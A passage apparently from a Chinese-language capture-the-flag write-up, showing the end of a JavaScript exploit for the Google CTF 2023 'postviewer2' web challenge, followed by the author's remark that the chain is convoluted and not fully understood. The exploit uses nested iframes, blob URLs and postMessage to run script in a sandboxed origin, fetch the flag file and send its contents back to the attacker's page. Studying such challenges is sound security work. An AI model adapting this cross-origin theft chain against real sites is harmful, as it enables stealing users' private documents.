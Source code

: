 ```html
                x.src = 'https://postviewer2-web.2023.ctfcompetition.com/#file-87ebbc317d687eeff47403603cc6dfb9b7d6c817' //此时因为长url的关系，POC这里没有csp了，所以可以把flag选中
                document.body.appendChild(x);
                await sleep(1000);
                /* Step 7 */
                top[0][0][0].location = URL.createObjectURL(new Blob(['<script>top.postMessage(location.ancestorOrigins[0],"*")<\/script>'], { type: 'text/html' }));
            }

            onmessage = e => {
                /* Step 8 */
                if (e.data.includes?.('sbx-')) {
                    var x = document.createElement('iframe');
                    x.src = e.data + '/shim.html?o=' + encodeURIComponent(window.origin);
                    document.body.appendChild(x);

                    /* Steps 9 & 10 */
                    x.onload = () => {
                        x.contentWindow.postMessage({ body: `<script>fetch(top[0][0].document.querySelector('iframe').src).then(e=>e.text()).then(e=>top.postMessage({flag: e},'*'))<\/script>`, mimeType: 'text/html', sandbox: ['allow-same-origin', 'allow-same-origin', 'allow-scripts', 'allow-modals'] }, '*');
                    }
                }

                if (e.data.flag) {
                    history.pushState('','',`blob:${location.origin}/${e.data.flag}`); //访问flag
                }
            }
        }
    })()
</script>
```
真的绕啊，其实我感觉我还没完全懂。但就这样了，看了一个下午了都。